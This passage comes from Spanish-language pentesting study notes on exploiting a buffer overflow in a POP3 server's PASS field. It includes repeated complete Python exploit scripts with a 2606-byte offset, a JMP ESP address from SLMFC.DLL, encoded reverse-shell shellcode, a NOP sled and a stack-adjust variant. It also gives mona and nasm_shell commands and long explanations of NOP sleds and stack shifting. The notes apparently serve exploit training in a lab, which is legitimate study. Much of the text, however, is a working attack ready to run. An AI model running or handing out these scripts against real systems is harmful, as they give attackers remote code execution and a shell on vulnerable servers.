b"\x1f\x21\x43\x40\xf9\xa2\x4f\x2d\x8d\xec\x53\xb0\x42\x87"
b"\x68\x39\x65\x47\xf9\x79\x42\x43\xa1\xda\xeb\xd2\x0f\x8c"
b"\x14\x04\xf0\x71\xb1\x4f\x1d\x65\xc8\x12\x4a\x4a\xe1\xac"
b"\x8a\xc4\x72\xdf\xb8\x4b\x29\x77\xf1\x04\xf7\x80\xf6\x3e"
b"\x4f\x1e\x09\xc1\xb0\x37\xce\x95\xe0\x2f\xe7\x95\x6a\xaf"
b"\x08\x40\x3c\xff\xa6\x3b\xfd\xaf\x06\xec\x95\xa5\x88\xd3"
b"\x86\xc6\x42\x7c\x2c\x3d\x05\x43\x19\x3d\xb1\x2b\x58\x3d"
b"\x38\x17\xd5\xdb\x50\x77\xb0\x74\xcd\xee\x99\x0e\x6c\xee"
b"\x37\x6b\xae\x64\xb4\x8c\x61\x8d\xb1\x9e\x16\x7d\x8c\xfc"
b"\xb1\x82\x3a\x68\x5d\x10\xa1\x68\x28\x09\x7e\x3f\x7d\xff"
b"\x77\xd5\x93\xa6\x21\xcb\x69\x3e\x09\x4f\xb6\x83\x94\x4e"
b"\x3b\xbf\xb2\x40\x85\x40\xff\x34\x59\x17\xa9\xe2\x1f\xc1"
b"\x1b\x5c\xf6\xbe\xf5\x08\x8f\x8c\xc5\x4e\x90\xd8\xb3\xae"
b"\x21\xb5\x85\xd1\x8e\x51\x02\xaa\xf2\xc1\xed\x61\xb7\xe2"
b"\x0f\xa3\xc2\x8a\x89\x26\x6f\xd7\x29\x9d\xac\xee\xa9\x17"
b"\x4d\x15\xb1\x52\x48\x51\x75\x8f\x20\xca\x10\xaf\x97\xeb"
b"\x30")

payload = before_eip + eip + shellcode

def exploit():
    # Create a socket
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    # Connect to the server
    s.connect((ip_add, port))

    # Receive banner
    banner = s.recv(1024)

    # Send data
    s.send(b"USER bof" + b"\r\n")
    s.send(b"PASS " + payload + b"\r\n")
    s.close()

if __name__ == '__main__':
    exploit()
```

## Buscar OPCode

Este shellcode será insertado en el stack pero para que este sea interpretado y ejecutado, el EIP deberá apuntar al ESP ya que es ahí en donde estará el shellcode. 

El EIP no puede apuntar directamente al ESP por lo que deberá apuntar a una sección de memoria en la que como OPCode se aplique un JMP ESP, es decir, un jump al ESP.

Para encontrar esto, primero se buscará un módulo con mona en el que las primeras cuatro columnas de protecciones estén en “False” (Rebase, SafeSEH, ASLR y NXCompact):

```bash
!mona modules
```


En este caso se usará el módulo “C:\windows\system32\SLMFC.DLL” y ahora la idea es buscar en esta DLL, la dirección de un OPCode en la que se aplique un JMP ESP para que el EIP apunte a esta dirección y de esta forma se aplique un salto al ESP.

Primero hay que conocer cuál es el OPCode correspondiente al JMP ESP, para esto se puede usar la siguiente herramienta de metasploit:

```bash
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

# Y dentro del nasm escribir: jmp ESP
```

Esto proporcionará el OPCode del JMP ESP:


Esto se representa de la siguiente forma: \xFF\XE4

Nota: No es necesario representar los OPCodes con lilttle endian.

Ahora se buscará la dirección de este OPCode, en el módulo seleccionado anteriormente, con el siguiente comando:

```bash
!mona find -s "\xFF\xE4" -m SLMFC.DLL

-s # Indica el OPCode
-m # Indica el módulo
```

Nota: Si no se encuentra el OPCode, se debe probar con otro módulo.


En este caso se encontraron 19 resultados, la idea es tomar alguna de estas direcciones siempre y cuando no contengan los badchars encontrados anteriormente: “\x00\x0a\x0d”, por ejemplo, se tomará la dirección “0x5f4c4d13”.

Esta es la dirección del OPCode a la que deberá apuntar el EIP para que aplique el JMP ESP.

Esta dirección se debe representar en el script para que a la hora de enviar los datos, se sobrescriba el EIP con la dirección del OPCode, además se debe representar con el formato “little endian” ya que es una dirección.

```bash
#!/usr/bin/python3

import socket
import sys
from struct import pack

# Variables globales
ip_add = "192.168.0.104"
port = 110

before_eip = b"A"*2606
eip = pack("<L", 0x5f4c4d13)
shellcode = (b"\xbf\x77\x7d\x85\xae\xd9\xcb\xd9\x74\x24\xf4\x5a\x31\xc9"
b"\xb1\x52\x31\x7a\x12\x03\x7a\x12\x83\xb5\x79\x67\x5b\xc5"
b"\x6a\xe5\xa4\x35\x6b\x8a\x2d\xd0\x5a\x8a\x4a\x91\xcd\x3a"
b"\x18\xf7\xe1\xb1\x4c\xe3\x72\xb7\x58\x04\x32\x72\xbf\x2b"
b"\xc3\x2f\x83\x2a\x47\x32\xd0\x8c\x76\xfd\x25\xcd\xbf\xe0"
b"\xc4\x9f\x68\x6e\x7a\x0f\x1c\x3a\x47\xa4\x6e\xaa\xcf\x59"
b"\x26\xcd\xfe\xcc\x3c\x94\x20\xef\x91\xac\x68\xf7\xf6\x89"
b"\x23\x8c\xcd\x66\xb2\x44\x1c\x86\x19\xa9\x90\x75\x63\xee"
b"\x17\x66\x16\x06\x64\x1b\x21\xdd\x16\xc7\xa4\xc5\xb1\x8c"
b"\x1f\x21\x43\x40\xf9\xa2\x4f\x2d\x8d\xec\x53\xb0\x42\x87"
b"\x68\x39\x65\x47\xf9\x79\x42\x43\xa1\xda\xeb\xd2\x0f\x8c"
b"\x14\x04\xf0\x71\xb1\x4f\x1d\x65\xc8\x12\x4a\x4a\xe1\xac"
b"\x8a\xc4\x72\xdf\xb8\x4b\x29\x77\xf1\x04\xf7\x80\xf6\x3e"
b"\x4f\x1e\x09\xc1\xb0\x37\xce\x95\xe0\x2f\xe7\x95\x6a\xaf"
b"\x08\x40\x3c\xff\xa6\x3b\xfd\xaf\x06\xec\x95\xa5\x88\xd3"
b"\x86\xc6\x42\x7c\x2c\x3d\x05\x43\x19\x3d\xb1\x2b\x58\x3d"
b"\x38\x17\xd5\xdb\x50\x77\xb0\x74\xcd\xee\x99\x0e\x6c\xee"
b"\x37\x6b\xae\x64\xb4\x8c\x61\x8d\xb1\x9e\x16\x7d\x8c\xfc"
b"\xb1\x82\x3a\x68\x5d\x10\xa1\x68\x28\x09\x7e\x3f\x7d\xff"
b"\x77\xd5\x93\xa6\x21\xcb\x69\x3e\x09\x4f\xb6\x83\x94\x4e"
b"\x3b\xbf\xb2\x40\x85\x40\xff\x34\x59\x17\xa9\xe2\x1f\xc1"
b"\x1b\x5c\xf6\xbe\xf5\x08\x8f\x8c\xc5\x4e\x90\xd8\xb3\xae"
b"\x21\xb5\x85\xd1\x8e\x51\x02\xaa\xf2\xc1\xed\x61\xb7\xe2"
b"\x0f\xa3\xc2\x8a\x89\x26\x6f\xd7\x29\x9d\xac\xee\xa9\x17"
b"\x4d\x15\xb1\x52\x48\x51\x75\x8f\x20\xca\x10\xaf\x97\xeb"
b"\x30")

payload = before_eip + eip + shellcode

def exploit():
    # Create a socket
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    # Connect to the server
    s.connect((ip_add, port))

    # Receive banner
    banner = s.recv(1024)

    # Send data
    s.send(b"USER bof" + b"\r\n")
    s.send(b"PASS " + payload + b"\r\n")
    s.close()

if __name__ == '__main__':
    exploit()
```

## Verificación de EIP con Breakpoint

Ahora se verificará que el EIP entre en esta dirección, para esto se ejecutará el script pero primero se establecerá un breakpoint en la dirección de memoria del OPCode.

Primero se busca en memoria la dirección del OPCode en el Immunity Debugger, para buscarla se debe dar click en el ícono de la flecha negra con los puntos e ingresar la dirección del OPCode:


Ahora se puede ver el OPCode FFE4 y corresponde a un JMP ESP.


En esa dirección se establecerá un breakpoint, para esto hay que dar click derecho sobre el OPCode/Breakpoint/Toggle


Esto lo que hará es que cuando el flujo del programa fluya, parará en el momento en que llegue a la dirección en donde se estableció el breakpoint sin ejecutarlo y en ese momento se podrá ver a dónde apunta EIP y deberá ser al OPCode.

Al ejecutar el script se puede ver que ahora el EIP está apuntando al OPCode que hará un JMP al ESP.


En ese momento no se ha ejecutado el OPCode pero si se hace un “step into” a la siguiente instrucción a ejecutar, es decir, dar un paso adelante desde donde se estableció el breakpoint, se ejecutará el OPCode y hará un JMP al ESP por lo que EIP ahora apuntará a la misma dirección que el ESP en el cual es donde se almacena el shellcode malicioso.

Para hacer el “step into”, hay que dar click en la flechar roja que se muestra en la imagen.


Hecho esto, ahora hay un problema y es que de primeras no ejecutará la instrucción del shellcode ya que su ejecución puede requerir más tiempo de lo que el procesador tiene disponible antes de continuar con la siguiente instrucción.

# Uso de NOPs e interpretación del Shellcode para lograr RCE

Uso de NOPs, desplazamientos en pila e interpretación del Shellcode para lograr RCE
    
Una vez que se ha encontrado la dirección del opcode que aplica el salto al registro **ESP**, es posible que el shellcode no sea interpretado correctamente debido a que su ejecución puede requerir más tiempo del que el procesador tiene disponible antes de continuar con la siguiente instrucción del programa.
    
Para solucionar este problema, se suelen utilizar técnicas como la introducción de **NOPS** (**instrucciones de no operación**) antes del shellcode en la pila. Los NOPS no realizan ninguna operación, pero permiten que el procesador tenga tiempo adicional para interpretar el shellcode antes de continuar con la siguiente instrucción del programa.
    
Otra técnica que se suele utilizar es el desplazamiento en la pila, que implica modificar el registro ESP para reservar espacio adicional para el shellcode y permitir que se ejecute sin problemas. Por ejemplo, se puede utilizar la instrucción “**sub esp, 0x10**” para desplazar el registro ESP **16 bytes** hacia abajo en la pila y reservar espacio adicional para el shellcode.
    

### Más info:

- Links
    
    cobalt - (”[https://www.cobalt.io/blog/pentester-guide-to-exploiting-buffer-overflow-vulnerabilities#:~:text=A NOP (No Operation) sled,in the vulnerable program's stack](https://www.cobalt.io/blog/pentester-guide-to-exploiting-buffer-overflow-vulnerabilities#:~:text=A%20NOP%20(No%20Operation)%20sled,in%20the%20vulnerable%20program's%20stack).”)
    

Como se mencionó anteriormente, el shellcode no será ejecutado ya que su ejecución en sí requerirá más tiempo de lo que el procesador tiene asignado antes de continuar con la siguiente instrucción. Las formas de solucionar esto es utilizando NOPs o desplazamiento de pila.

## NOP (No Operation)

- ¿Qué es un NOP?
    
    En informática, "NOP" es una abreviatura de "No Operation" o "No Operation Performed", que en español se traduce como "Operación No Realizada" o "Operación No Ejecutada". Un NOP es una instrucción de máquina que no realiza ninguna operación significativa en términos de procesamiento o cálculos. En lugar de realizar una acción útil, su único propósito es ocupar espacio en el programa o en el flujo de ejecución.
    
    Los NOPs son útiles en varios contextos:
    
    1. **Alineación de Instrucciones:** En ciertas arquitecturas de procesadores, las instrucciones deben estar alineadas en direcciones de memoria específicas para un rendimiento óptimo. Insertar NOPs entre instrucciones puede ayudar a lograr esta alineación.
    2. **Rellenar de Espacio:** A veces, cuando se está desarrollando un programa o un shellcode, es necesario llenar espacio en la memoria con instrucciones válidas para asegurarse de que el tamaño total sea el adecuado. Los NOPs se utilizan comúnmente para este propósito.
    3. **Ofuscación y Evitación de Detección:** En el contexto del desarrollo de malware o técnicas de hacking, los NOPs pueden ser utilizados para aumentar la complejidad y dificultar el análisis del código. Los atacantes pueden insertar NOPs entre instrucciones maliciosas para confundir a los sistemas de seguridad.
    
    La representación binaria de un NOP varía según la arquitectura de la CPU. En la mayoría de las arquitecturas, un NOP se traduce en una secuencia de bytes específica que indica al procesador que no debe realizar ninguna operación. Por ejemplo, en la arquitectura x86 de Intel, el byte 0x90 se utiliza como instrucción NOP.
    
    Es importante destacar que, aunque los NOPs no realicen operaciones útiles, pueden tener un impacto en el rendimiento de una aplicación o sistema si se utilizan en exceso, ya que ocupan espacio en la memoria y pueden afectar la eficiencia de la ejecución.
    
- ¿Qué es un NOP en el contexto de Buffer Overflow?
    
    Los atacantes utilizan NOPs (instrucciones "No Operation") o cadenas de NOPs en el contexto de la explotación de vulnerabilidades de desbordamiento de búfer y otras técnicas de hacking para aumentar la probabilidad de que su shellcode sea ejecutado correctamente después de que el búfer se desborde y se sobrescriban las direcciones de retorno en la pila. Esta técnica se conoce como "NOP sled" o "NOP slide".
    
    Cuando un atacante explota un desbordamiento de búfer, intenta sobrescribir las direcciones de retorno en la pila con la dirección de inicio de su propio código malicioso, también conocido como "shellcode". Sin embargo, debido a la naturaleza impredecible de la ubicación exacta en la memoria donde el shellcode será cargado y ejecutado, existe la posibilidad de que la dirección de retorno no sea precisa y que el procesador comience a ejecutar el shellcode en una ubicación ligeramente diferente.
    
    Aquí es donde entran en juego los NOPs:
    
    1. **Cadenas de NOPs:** Al colocar una cadena de NOPs en el búfer antes del shellcode, el atacante crea un "sled" (pista) de instrucciones que no hacen nada. Si el procesador comienza a ejecutar el código malicioso un poco antes de la dirección de inicio exacta del shellcode, es más probable que se deslice a través de la cadena de NOPs antes de llegar al shellcode real.
    2. **Aumento de la probabilidad de éxito:** La cadena de NOPs actúa como un colchón, aumentando las posibilidades de que la ejecución llegue finalmente al shellcode, independientemente de la dirección de inicio exacta. Esto puede ser especialmente útil cuando la ubicación exacta de la memoria es difícil de predecir debido a ASLR (Address Space Layout Randomization) u otras mitigaciones de seguridad.
    3. **Tolerancia a pequeños errores:** Incluso si la dirección de inicio del shellcode no coincide perfectamente con la dirección de retorno sobrescrita, los NOPs permiten cierto margen de error antes de llegar al código malicioso. Esto puede ser útil cuando hay pequeñas desviaciones en la ejecución debidas a variaciones en la memoria o el entorno.
    

Para agregar estos NOPs, se debe tomar en cuenta la arquitectura de la máquina víctima para que se interpreten correctamente los NOPs, en el caso de sistemas de 32 bits, se usa “\x90” y esto se debe agregar en el payload antes de ingresar el shellcode y la cantidad puede ser mayor a 16 NOPs:

```bash
#!/usr/bin/python3

import socket
import sys
from struct import pack

# Variables globales
ip_add = "192.168.0.104"
port = 110

before_eip = b"A"*2606
eip = pack("<L", 0x5f4c4d13)
shellcode = (b"\xbf\x77\x7d\x85\xae\xd9\xcb\xd9\x74\x24\xf4\x5a\x31\xc9"
b"\xb1\x52\x31\x7a\x12\x03\x7a\x12\x83\xb5\x79\x67\x5b\xc5"
b"\x6a\xe5\xa4\x35\x6b\x8a\x2d\xd0\x5a\x8a\x4a\x91\xcd\x3a"
b"\x18\xf7\xe1\xb1\x4c\xe3\x72\xb7\x58\x04\x32\x72\xbf\x2b"
b"\xc3\x2f\x83\x2a\x47\x32\xd0\x8c\x76\xfd\x25\xcd\xbf\xe0"
b"\xc4\x9f\x68\x6e\x7a\x0f\x1c\x3a\x47\xa4\x6e\xaa\xcf\x59"
b"\x26\xcd\xfe\xcc\x3c\x94\x20\xef\x91\xac\x68\xf7\xf6\x89"
b"\x23\x8c\xcd\x66\xb2\x44\x1c\x86\x19\xa9\x90\x75\x63\xee"
b"\x17\x66\x16\x06\x64\x1b\x21\xdd\x16\xc7\xa4\xc5\xb1\x8c"
b"\x1f\x21\x43\x40\xf9\xa2\x4f\x2d\x8d\xec\x53\xb0\x42\x87"
b"\x68\x39\x65\x47\xf9\x79\x42\x43\xa1\xda\xeb\xd2\x0f\x8c"
b"\x14\x04\xf0\x71\xb1\x4f\x1d\x65\xc8\x12\x4a\x4a\xe1\xac"
b"\x8a\xc4\x72\xdf\xb8\x4b\x29\x77\xf1\x04\xf7\x80\xf6\x3e"
b"\x4f\x1e\x09\xc1\xb0\x37\xce\x95\xe0\x2f\xe7\x95\x6a\xaf"
b"\x08\x40\x3c\xff\xa6\x3b\xfd\xaf\x06\xec\x95\xa5\x88\xd3"
b"\x86\xc6\x42\x7c\x2c\x3d\x05\x43\x19\x3d\xb1\x2b\x58\x3d"
b"\x38\x17\xd5\xdb\x50\x77\xb0\x74\xcd\xee\x99\x0e\x6c\xee"
b"\x37\x6b\xae\x64\xb4\x8c\x61\x8d\xb1\x9e\x16\x7d\x8c\xfc"
b"\xb1\x82\x3a\x68\x5d\x10\xa1\x68\x28\x09\x7e\x3f\x7d\xff"
b"\x77\xd5\x93\xa6\x21\xcb\x69\x3e\x09\x4f\xb6\x83\x94\x4e"
b"\x3b\xbf\xb2\x40\x85\x40\xff\x34\x59\x17\xa9\xe2\x1f\xc1"
b"\x1b\x5c\xf6\xbe\xf5\x08\x8f\x8c\xc5\x4e\x90\xd8\xb3\xae"
b"\x21\xb5\x85\xd1\x8e\x51\x02\xaa\xf2\xc1\xed\x61\xb7\xe2"
b"\x0f\xa3\xc2\x8a\x89\x26\x6f\xd7\x29\x9d\xac\xee\xa9\x17"
b"\x4d\x15\xb1\x52\x48\x51\x75\x8f\x20\xca\x10\xaf\x97\xeb"
b"\x30")

payload = before_eip + eip + b"\x90"*20 + shellcode

def exploit():
    # Create a socket
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    # Connect to the server
    s.connect((ip_add, port))

    # Receive banner
    banner = s.recv(1024)

    # Send data
    s.send(b"USER bof" + b"\r\n")
    s.send(b"PASS " + payload + b"\r\n")
    s.close()

if __name__ == '__main__':
    exploit()
```

De esta forma, cuando el atacante se ponga en escucha por el puerto especificado al crear el shellcode y ejecute el script, podrá obtener una reverse shell.


## Desplazamiento de la pila

- Explicación #1: ¿Qué es el desplazamiento de la pila?
    
    El desplazamiento de la pila es una técnica comúnmente utilizada en la explotación de vulnerabilidades de desbordamiento de búfer. Se refiere a la manipulación deliberada de las direcciones de retorno almacenadas en la pila durante la ejecución de un programa. Esta técnica es especialmente efectiva cuando un programa no realiza una verificación adecuada de los límites del búfer en el que se está escribiendo, lo que permite a los atacantes sobrescribir secciones críticas de memoria, como las direcciones de retorno.
    
    El proceso general del desplazamiento de la pila es el siguiente:
    
    1. **Identificación de una Vulnerabilidad:** Los atacantes buscan programas que no realicen una verificación adecuada de los límites de los búferes utilizados en su código. Si encuentran una vulnerabilidad de desbordamiento de búfer, podrán sobrescribir la memoria de manera controlada.
    2. **Cálculo del Desplazamiento:** Una vez que un atacante puede sobrescribir la memoria, el siguiente paso es calcular el desplazamiento necesario para alcanzar la ubicación en la pila donde se almacenan las direcciones de retorno.
    3. **Sobrescritura de la Dirección de Retorno:** El atacante crea un búfer especialmente diseñado que incluye la dirección de inicio de su propio código malicioso (shellcode) y luego calcula el desplazamiento necesario para llegar a esa dirección de retorno. Este búfer se inserta en la entrada vulnerable del programa, lo que desencadenará un desbordamiento.
    4. **Ejecución Controlada:** Cuando ocurre el desbordamiento y el programa sobrescribe las direcciones de retorno almacenadas en la pila, el procesador, al retornar de la función actual, saltará a la dirección de inicio del shellcode proporcionada por el atacante.
    5. **Ejecución del Shellcode:** El procesador ejecuta el shellcode proporcionado por el atacante. Este shellcode suele ser código malicioso diseñado para realizar acciones específicas, como tomar el control del sistema, instalar malware, obtener acceso privilegiado, entre otros.
    
    El desplazamiento de la pila es una técnica efectiva en los ataques de desbordamiento de búfer, pero su éxito depende de la capacidad del atacante para calcular con precisión el desplazamiento necesario y para asegurarse de que el shellcode se ejecute de manera controlada. Con las defensas de seguridad modernas y las prácticas recomendadas de programación, como la implementación de verificaciones de límites y el uso de mecanismos de protección de memoria, las vulnerabilidades de desbordamiento de búfer y las técnicas de desplazamiento de la pila se han vuelto menos comunes, pero aún pueden ser explotadas en sistemas más antiguos o mal configurados.
    
- Explicación #2 ¿Qué es el desplazamiento de la pila?
    
    Cuando un atacante decrementa el valor del puntero de pila (ESP o RSP en arquitecturas x86 y x86-64 respectivamente) cierta cantidad de bytes, está intentando ajustar el desplazamiento necesario para alcanzar la dirección de retorno almacenada en la pila después de un desbordamiento de búfer. Esto es una parte esencial de la técnica de desplazamiento de la pila utilizada en la explotación de vulnerabilidades de desbordamiento de búfer.
    
    Permíteme explicarlo con más detalle:
    
    1. **Dirección de Retorno:** Cuando una función es llamada en un programa, la dirección de retorno (también conocida como "return address") se almacena en la pila. Esta dirección indica a dónde debe retornar el flujo de ejecución del programa después de que la función termine su ejecución.
    2. **Manipulación de la Pila:** En un ataque de desbordamiento de búfer, el atacante introduce más datos de los que el búfer puede contener en una entrada vulnerable del programa. Esto puede sobrescribir parte de la memoria, incluida la dirección de retorno almacenada en la pila.
    3. **Ajuste del Desplazamiento:** El atacante necesita asegurarse de que, después de sobrescribir la dirección de retorno, el flujo de ejecución del programa "salte" al shellcode que ha inyectado en el búfer, en lugar de causar una falla en el programa. Para lograrlo, el atacante calcula cuántos bytes necesita mover el puntero de pila hacia atrás para que apunte al inicio del shellcode que se encuentra en el búfer. Esto se hace decrementando el valor del puntero de pila.
    4. **Ejecución del Shellcode:** Cuando el programa retorna de la función actual, sigue la dirección de retorno alterada. Debido al desplazamiento ajustado por el atacante, el flujo de ejecución se dirige hacia el shellcode inyectado en el búfer. Como resultado, el shellcode se ejecuta y el atacante logra su objetivo, que podría ser tomar el control del sistema, instalar malware u otras acciones maliciosas.
    
    En resumen, el decremento del valor del puntero de pila permite al atacante manipular el flujo de ejecución del programa para dirigirlo al código malicioso (shellcode) inyectado en el búfer. Esta técnica es una parte fundamental de la explotación de desbordamiento de búfer y se utiliza para tomar el control del programa víctima y ejecutar código arbitrario.
    

Para hacer un desplazamiento de pila primero se utilizará una instrucción que desplazará el registro ESP 16 bytes atrás en la pila, para esto se utilizará la herramienta nasm de metasploit para obtener la instrucción que luego será insertada en el script:

```bash
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

# En en el nsm ingresar: sub esp,0x10
```


Ahora esta instrucción deberá ser insertada en el payload antes del shellcode:

```bash
#!/usr/bin/python3

import socket
import sys
from struct import pack

# Variables globales
ip_add = "192.168.0.104"
port = 110

before_eip = b"A"*2606
eip = pack("<L", 0x5f4c4d13)
shellcode = (b"\xbf\x77\x7d\x85\xae\xd9\xcb\xd9\x74\x24\xf4\x5a\x31\xc9"
b"\xb1\x52\x31\x7a\x12\x03\x7a\x12\x83\xb5\x79\x67\x5b\xc5"
b"\x6a\xe5\xa4\x35\x6b\x8a\x2d\xd0\x5a\x8a\x4a\x91\xcd\x3a"
b"\x18\xf7\xe1\xb1\x4c\xe3\x72\xb7\x58\x04\x32\x72\xbf\x2b"
b"\xc3\x2f\x83\x2a\x47\x32\xd0\x8c\x76\xfd\x25\xcd\xbf\xe0"
b"\xc4\x9f\x68\x6e\x7a\x0f\x1c\x3a\x47\xa4\x6e\xaa\xcf\x59"
b"\x26\xcd\xfe\xcc\x3c\x94\x20\xef\x91\xac\x68\xf7\xf6\x89"
b"\x23\x8c\xcd\x66\xb2\x44\x1c\x86\x19\xa9\x90\x75\x63\xee"
b"\x17\x66\x16\x06\x64\x1b\x21\xdd\x16\xc7\xa4\xc5\xb1\x8c"
b"\x1f\x21\x43\x40\xf9\xa2\x4f\x2d\x8d\xec\x53\xb0\x42\x87"
b"\x68\x39\x65\x47\xf9\x79\x42\x43\xa1\xda\xeb\xd2\x0f\x8c"
b"\x14\x04\xf0\x71\xb1\x4f\x1d\x65\xc8\x12\x4a\x4a\xe1\xac"
b"\x8a\xc4\x72\xdf\xb8\x4b\x29\x77\xf1\x04\xf7\x80\xf6\x3e"
b"\x4f\x1e\x09\xc1\xb0\x37\xce\x95\xe0\x2f\xe7\x95\x6a\xaf"
b"\x08\x40\x3c\xff\xa6\x3b\xfd\xaf\x06\xec\x95\xa5\x88\xd3"
b"\x86\xc6\x42\x7c\x2c\x3d\x05\x43\x19\x3d\xb1\x2b\x58\x3d"
b"\x38\x17\xd5\xdb\x50\x77\xb0\x74\xcd\xee\x99\x0e\x6c\xee"
b"\x37\x6b\xae\x64\xb4\x8c\x61\x8d\xb1\x9e\x16\x7d\x8c\xfc"
b"\xb1\x82\x3a\x68\x5d\x10\xa1\x68\x28\x09\x7e\x3f\x7d\xff"
b"\x77\xd5\x93\xa6\x21\xcb\x69\x3e\x09\x4f\xb6\x83\x94\x4e"
b"\x3b\xbf\xb2\x40\x85\x40\xff\x34\x59\x17\xa9\xe2\x1f\xc1"
b"\x1b\x5c\xf6\xbe\xf5\x08\x8f\x8c\xc5\x4e\x90\xd8\xb3\xae"
b"\x21\xb5\x85\xd1\x8e\x51\x02\xaa\xf2\xc1\xed\x61\xb7\xe2"
b"\x0f\xa3\xc2\x8a\x89\x26\x6f\xd7\x29\x9d\xac\xee\xa9\x17"
b"\x4d\x15\xb1\x52\x48\x51\x75\x8f\x20\xca\x10\xaf\x97\xeb"
b"\x30")

payload = before_eip + eip + b"\x83\xEC\x10" + shellcode

def exploit():
    # Create a socket
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    # Connect to the server
    s.connect((ip_add, port))

    # Receive banner
    banner = s.recv(1024)

    # Send data
    s.send(b"USER bof" + b"\r\n")
    s.send(b"PASS " + payload + b"\r\n")
    s.close()

if __name__ == '__main__':
    exploit()
```

Una vez hecho esto, al ejecutar el script se interpretará el shellcode correctamente y se proporcionará una reverse shell.


## Más preguntas relacionadas

- ¿Por qué es necesario utilizar estas NOPs o Desplazamiento de pila?
    
    Cuando se trata de explotar vulnerabilidades de desbordamiento de búfer y ejecutar shellcode, hay varios factores en juego que pueden influir en el éxito o el fracaso de la ejecución. Aunque es posible saltar directamente al puntero de pila (ESP o RSP) utilizando una instrucción "JMP ESP", hay razones por las cuales esta técnica sola no garantiza que el shellcode se ejecute sin problemas y por qué se recurre a técnicas como cadenas de NOPs o desplazamiento de la pila:
    
    1. **Ubicación del Shellcode:** Si bien un "JMP ESP" permite que el flujo de ejecución salte al puntero de pila, no garantiza que el shellcode esté exactamente en la ubicación correcta en la memoria para ser ejecutado. Los detalles como la ubicación exacta en la memoria y la alineación pueden afectar la ejecución exitosa del shellcode.
    2. **Alineación de Instrucciones:** Algunas arquitecturas de procesadores tienen requisitos de alineación de instrucciones, lo que significa que el código debe comenzar en una dirección de memoria específica para ejecutarse correctamente. Si el shellcode no cumple con estos requisitos, es posible que no se ejecute correctamente incluso si se salta al puntero de pila.
    3. **Dificultad en la Precisión:** La precisión en la explotación de desbordamiento de búfer puede ser complicada. Factores como variaciones en el entorno, la versión del sistema operativo y la configuración de la aplicación pueden afectar la ejecución exitosa. Los desplazamientos y las cadenas de NOPs se utilizan para aumentar la probabilidad de que el shellcode se ejecute incluso si hay pequeñas desviaciones en la dirección de inicio.
    4. **Protecciones de Memoria y Seguridad:** En sistemas modernos, se implementan protecciones de seguridad, como la DEP (Prevención de Ejecución de Datos) y ASLR (Address Space Layout Randomization), que dificultan la ejecución de código malicioso. Las técnicas como cadenas de NOPs y desplazamiento de pila pueden ser utilizadas para evadir estas protecciones y garantizar que el shellcode se ejecute correctamente.
    
    En resumen, aunque un "JMP ESP" puede llevar el flujo de ejecución al puntero de pila, varios factores pueden afectar la ejecución exitosa del shellcode. Las técnicas de cadenas de NOPs y desplazamiento de la pila se utilizan para aumentar la confiabilidad y la probabilidad de que el shellcode se ejecute sin problemas, independientemente de la ubicación exacta en la memoria y de otros factores que podrían influir en la ejecución. Estas técnicas son parte de la estrategia para superar las complejidades y desafíos en la explotación de vulnerabilidades de desbordamiento de búfer.
    
- Explicación #1: Diferencia de NOP y desplazamiento de pila
    
    **NOP Sled (Cadena de NOPs):**
    
    La cadena de NOPs crea un "margen de error" o "zona de deslizamiento" que actúa como colchón para aumentar la probabilidad de que el flujo de ejecución alcance el shellcode, incluso si el puntero de pila (ESP o RSP) no apunta exactamente al inicio del shellcode.
    
    **Desplazamiento de Pila:**
    
    El desplazamiento de pila consiste en ajustar el puntero de pila retrocediendo una cantidad específica de bytes antes del inicio del shellcode. Esto se hace para garantizar que, incluso si el puntero de pila apunta ligeramente más adelante o más atrás de la ubicación del shellcode, la ejecución aún llegará al shellcode.
    
    En conjunto, estas técnicas se utilizan para superar las variaciones en la ubicación exacta de la memoria y otros factores que podrían afectar la ejecución del shellcode después de un desbordamiento de búfer. Las cadenas de NOPs proporcionan un área de deslizamiento amplia y el desplazamiento de pila asegura que el shellcode se ejecute independientemente de las pequeñas desviaciones en la dirección de retorno.
    
    Ambas técnicas son formas de aumentar la confiabilidad y la probabilidad de éxito en la explotación de vulnerabilidades de desbordamiento de búfer. Como mencionaste, el objetivo final es asegurar que el shellcode malicioso se ejecute, permitiendo al atacante tomar el control del sistema o llevar a cabo otras acciones maliciosas.
    
- Explicación #2: Diferencia de NOP y desplazamiento de pila
    
    Tanto el uso de cadenas de NOPs como el desplazamiento de pila están relacionados con técnicas de explotación de vulnerabilidades, pero se enfocan en aspectos ligeramente diferentes en el contexto de la seguridad informática.
    
    1. **Cadenas de NOPs (NOP Sled):**
        
        Una cadena de NOPs, también conocida como NOP sled, es una secuencia de instrucciones NOP (No Operation) que se coloca en el búfer antes del shellcode en una explotación de desbordamiento de búfer. La intención es crear un área en la memoria donde el procesador pueda deslizarse si la dirección de inicio del shellcode no se ajusta perfectamente. Esta técnica se utiliza para aumentar la probabilidad de que la ejecución llegue al shellcode, incluso si hay pequeñas desviaciones en la dirección de inicio.
        
    2. **Desplazamiento de Pila:**
        
        El desplazamiento de pila se refiere a la manipulación deliberada de las direcciones de retorno en la pila durante una explotación de desbordamiento de búfer. En este contexto, los atacantes intentan sobrescribir las direcciones de retorno almacenadas en la pila con la dirección de inicio de su propio código malicioso (shellcode). El objetivo es hacer que el procesador ejecute el shellcode cuando retorna de la función actual. El desplazamiento se refiere a la cantidad de bytes que se debe avanzar desde el inicio del búfer sobrescrito hasta llegar al shellcode.
        
    
    En resumen, la cadena de NOPs (NOP sled) es una técnica para aumentar la probabilidad de éxito de ejecución del shellcode, permitiendo que el procesador deslice a través de una secuencia de instrucciones sin efecto antes de llegar al shellcode real. El desplazamiento de pila, por otro lado, se refiere a la manipulación de las direcciones de retorno en la pila para dirigir la ejecución al shellcode después de un desbordamiento de búfer. Estas técnicas a menudo se utilizan en combinación para aumentar la confiabilidad y la efectividad de las explotaciones de desbordamiento de búfer.
    
- ¿Qué es fgets(), memcpy(), sprintf(), strncpy, scanf() y strcat()?
    
    Estas son funciones comunes utilizadas en programación para manipular cadenas de caracteres y gestionar la entrada y salida de datos en varios lenguajes de programación. Aquí tienes una explicación de cada una:
    
